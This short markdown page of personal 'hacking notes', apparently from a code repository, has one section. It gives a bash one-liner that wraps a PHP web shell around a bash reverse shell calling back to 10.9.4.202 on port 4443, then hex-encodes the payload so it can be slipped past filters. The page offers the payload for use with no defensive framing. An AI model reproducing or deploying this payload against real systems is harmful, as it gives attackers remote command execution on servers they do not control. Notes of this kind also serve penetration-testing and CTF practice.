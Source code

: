 # hacking-notes


## conversion

PHP code into hexadecimal

```bash
echo '<?php system("bash -i >& /dev/tcp/10.9.4.202/4443 0>&1") ?>' | xxd -p -u | tr -d '\n'
```

